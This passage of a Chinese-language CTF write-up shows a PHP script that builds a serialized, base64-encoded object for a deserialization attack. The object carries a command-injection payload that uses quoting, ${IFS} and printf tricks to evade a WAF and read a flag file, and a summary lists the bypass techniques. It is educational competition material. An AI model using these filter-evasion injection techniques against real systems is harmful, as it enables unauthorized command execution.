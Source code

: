 构造如下payloud

```php
$args=array('ca""t${IFS}f""lag_1s_here$(printf${IFS}"\57")f""lag_831b69012c67b35f.p""hp');
```

代码如下

```php
<?php

class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

$args=array('ca""t${IFS}f""lag_1s_here$(printf${IFS}"\57")f""lag_831b69012c67b35f.p""hp');
$a=new ease("ping",$args);
$b=serialize($a);
print($b."\n");
$data=base64_encode($b);
echo $data;


?>
```

![image-20240323144143183](D:\文档\ctf\assets\image-20240323144143183.png)

![image-20240323144201080](D:\文档\ctf\assets\image-20240323144201080.png)

![image-20240323144441765](D:\文档\ctf\assets\image-20240323144441765.png)

至此，已成艺术

**绕过绕过绕过**

##### 总结：$命令替换、ls -l、waf绕过、空格绕过、printf绕过

参考：https://www.cnblogs.com/gradyblog/p/16989750.html



#### web2
